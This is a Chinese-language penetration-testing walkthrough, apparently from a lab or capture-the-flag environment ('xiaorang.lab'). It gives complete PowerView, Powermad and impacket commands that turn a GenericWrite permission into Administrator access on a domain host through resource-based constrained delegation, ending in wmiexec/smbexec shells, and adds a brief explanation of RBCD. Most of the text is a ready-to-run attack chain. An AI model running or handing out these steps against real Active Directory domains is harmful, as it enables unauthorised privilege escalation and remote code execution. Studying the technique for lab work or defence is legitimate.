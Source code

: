 <!-- https://blog.csdn.net/longlangci/article/details/131686439 -->

- 前提: `GenericWrite` 权限

```bash
# 1. 枚举一下当前用户（lixiuying）对当前机器的DACL。
Import-Module .\PowerView.ps1
Get-DomainUser -Identity lixiuying -Properties objectsid
Get-DomainObjectAcl -Identity XR-0687 | ?{$_.SecurityIdentifier -match "S-1-5-21-3745972894-1678056601-2622918667-1131"}
## 看到 GenericWrite 权限 可以修改 XR-0687的任何属性, 可通过 RBCD 提权.
```

- 2.PowerMad 创建新的计算机账号 Test1$，密码 Test1234。

```ps1
Import-Module .\Powermad.ps1
# 设置机器账户的密码
$Password = ConvertTo-SecureString 'Test1234' -AsPlainText -Force
# 通过Net-MachineAccount函数创建机器账户
New-MachineAccount -MachineAccount "Test1" -Password $($Password) -Domain "xiaorang.lab" -DomainController "XR-DC01.xiaorang.lab" -verbose
```

- 3.通过 PowerView1 设置RBCD (Test1 到 XR-0687 的基于资源的约束性委派)

```ps1
# 将Test1的SID添加到XR-0687这台计算机对象的msDS-AllowedToActOnBehalfOfOtherIdentity属性中。

Import-Module .\PowerView.ps1
# 获取Test1账户的 SID
Get-NetComputer "Test1" -Properties objectsid
# 尝试配置Test1到XR-0687的基于资源的约束性委派
$A = New-Object Security.AccessControl.RawSecurityDescriptor -ArgumentList "O:BAD:(A;;CCDCLCSWRPWPDTLOCRSDRCWDWO;;;S-1-5-21-3745972894-1678056601-2622918667-1147)"
$SDBytes = New-Object byte[] ($A.BinaryLength)
$A.GetBinaryForm($SDBytes, 0)
Get-DomainComputer XR-0687 | Set-DomainObject -Set @{'msDS-AllowedToActOnBehalfOfOtherIdentity'=$SDBytes} -Verbose
# 查看是否配置成功
Get-DomainComputer XR-0687 -Properties msDS-AllowedToActOnBehalfOfOtherIdentity

# 在/etc/hosts中配置IP域名的映射关系
## 172.22.60.15 PC1.xiaorang.lab
```

# 4.用 Test1 账户申请 XR-0687 机器上的CIFS服务的高权限票据。
```ps1
sudo vim /etc/hosts # 配置ipo
172.22.15.35 XR-0687.xiaorang.lab
proxychains4 impacket-getST xiaorang.lab/Test1\$:Test1234 -dc-ip 172.22.15.13 -spn cifs/XR-0687.xiaorang.lab -impersonate Administrator

# 使用申请的票据获取XR-0687这台机器的本地管理员权限。
export KRB5CCNAME=Administrator.ccache
proxychains4 impacket-wmiexec -k xiaorang.lab/Administrator@XR-0687.xiaorang.lab -no-pass
## 不填用户名好像也行
proxychains4 impacket-smbexec -no-pass -k PC1.xiaorang.lab
```

# 介绍

基于资源的约束委派

- 基于资源的约束委派 (Resource-Based Constrained Delegation， RBCD) 是在 Windows Server 2012 中新引入的功能。与传统的约束委派相比，它将设置委派的权限交换给了服务资源自身，也就是说服务自己可以决定“谁可以对我进行委派”。基于资源的约束委派的关键在于 `msDS-AllowedToActOnBehalfOfOtherIdentity` 属性的设置。
